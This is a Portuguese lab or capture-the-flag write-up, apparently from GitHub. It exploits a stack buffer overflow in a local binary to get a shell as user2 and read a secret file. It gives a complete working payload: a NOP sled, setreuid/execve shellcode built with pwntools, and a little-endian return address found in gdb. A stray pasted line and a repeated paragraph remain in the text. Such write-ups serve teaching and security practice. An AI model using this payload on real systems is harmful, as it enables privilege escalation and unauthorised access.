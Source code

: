 <img width="673" height="200" alt="image" src="https://github.com/user-attachments/assets/559aa62a-1481-4cf5-ac55-6940a8519229" />

Como o acesso ao arquivo secreto requeria privilégios do user2 (UID 1002), o shellcode teve que ser modificado. Utilizou-se pwntools para gerar um payload que, antes de invocar a shell, altera o UID do processo para 1002.

`id -u user2`

<img width="448" height="59" alt="image" src="https://github.com/user-attachments/assets/dc702a03-89c8-401b-9829-2ae6aad7639f" />

Em seguida utilize: 

`pwn shellcraft -f d amd64.linux.setreuid 1002`

<img width="497" height="75" alt="image" src="https://github.com/user-attachments/assets/3204cea8-691d-4381-a817-a663b2d3c955" />


Com isso, podemos adicioná-lo ao nosso código e procurar o endereço de retorno do nosso código shell no gdb.

Nosso shellcode agora tem 54 bytes. Excluindo o endereço de retorno de 6 bytes, restam 98 bytes. Nosso payload ficará assim:

`| NOPs 90 | Shellcode 54 | random characters 8 | return address 6|`

Depois disso, precisamos verificar o registro para ver onde nosso código shell começa.

`run $(python -c "print('\x90' * 76 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 22 + 'B' * 6)")`

`x/100x $rsp-200`

<img width="646" height="441" alt="image" src="https://github.com/user-attachments/assets/feab275f-f468-4b79-88d4-af59ae5c073d" />

A análise da memória mostrou o início do NOP sled (\x90), seguido pelo shellcode. Qualquer endereço dentro deste NOP sled pode ser usado como endereço de retorno.

Aqui está uma versão simplificada e mais fluida, mantendo o tom técnico do writeup:

"A análise da memória mostrou o início do NOP sled (\x90), seguido pelo shellcode. Qualquer endereço dentro deste NOP sled pode ser usado como endereço de retorno.

Para este payload, foi escolhido o endereço `0x7fffffffe298`. Convertendo-o para o formato little-endian (o padrão de arquitetura), o endereço de retorno a ser usado é:

`'\x98\xe2\xff\xff\xff\x7f'`

Agora podemos adicionar isso à nossa carga útil, sair do gdb e executar o binário com nossa carga útil.

```bash
run $ (python -c "print('\x90' * 76 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 22 + '\x98\xe2\xff\xff\xff\x7f')")
```

Depois de acessar o user2, basta ler o arquivo com o comando:
